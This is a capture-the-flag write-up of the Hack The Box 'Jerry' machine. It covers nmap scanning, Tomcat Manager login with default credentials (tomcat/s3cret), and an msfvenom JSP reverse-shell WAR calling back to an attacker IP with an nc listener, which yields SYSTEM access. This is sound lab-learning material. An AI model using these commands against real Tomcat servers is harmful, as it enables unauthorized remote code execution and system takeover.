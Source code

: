 ```yaml
---
title: Jerry
author: nf4ll
date: 2022-11-28 16:29:00 +0000
categories: [Hack The Box, Machines]
tags: [Apache Tomcat, File upload, Remote Code Execution]
math: true
mermaid: true
image:
  path: /assets/img/posts/Jerry/Jerry.PNG
  width: 1200
  height: 600
---
```

# Write Up

About Jerry machine:
- OS: Windows
- Difficulty: Easy
- Release date: 2018-June-30
- IP: 10.10.10.95

## Preparation phase

I skip the recognizement phase because we already have the information about this machine and its operative system. Also, you can ping your objective to see if the host is up or down. With this ping we can see the TTL value. The value depends on the operative system:
- TTL = 64 -> Unix
- TTL = 128 -> Windows

## Scan phase

Firstly, I run an active scan to get the open ports in the machine. For the scan I use a Syn Stealth Scan (-sS). 

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-28 16:04 CET
Nmap scan report for 10.10.10.95
Host is up (0.042s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

Now I must run another scan to identify the services and the version that are running in this port. To do this scan I run two parameters, -sC and -sV but we can mix in -sCV and We will get the same result.

```bash
nmap -p8080 -sCV 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-28 17:01 CET
Nmap scan report for 10.10.10.95
Host is up (0.048s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.84 seconds
```

## Explotation phase

In the second place I go to the page to get more information. At this point we need to get the access to the machine, so once I scan and I can't find any ports with vulnerabilities I switch to the page to get any vulnerability. There is a curious button on the page and I click on it.

![Desktop View](/assets/img/posts/Jerry/Main.PNG)

A log in pop-up window opens to go to Manager Panel. I search on the Internet the default credentials for Apache Tomcat but I can't find any. The error page shows credentials for this Apache Tomacat version. I try these credentials `<user username="tomcat" password="s3cret"` and I cloud sign in.

![Desktop View](/assets/img/posts/Jerry/Error.PNG)

Once I access the Manager Panel I see a possible vulnerability. The page can deploy a file that you upload but you only can upload a .war file. I tried to upload a reverse shell with .php.war extension but the web application can't load it.

![Desktop View](/assets/img/posts/Jerry/form.PNG)

At this point I try to create a reverse shell with Msfvenom so I run the following command to create the malicious file:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o reverse.war`

Now I need to enable a listen port to receive the connection from the reverse shell. You can enable a listener with Netcat. I turn on the port 443 in a listener mode with the following command:

`nc -nlvp 443`

I uploaded the file and I went to this resource to activate my reverse shell. To activate it you need to go to the path without extension (.war). In my caso I need to load the following page:
`http://10.10.10.95:8080/reverse/`

You need to activate the malicous application so I load this directory to get my shell.

## Post-explotation phase

In the last step I get the flags because I am Nt-authority system user, so you don't need to do a privilege scalation.

![Desktop View](/assets/img/posts/Jerry/flags.PNG)

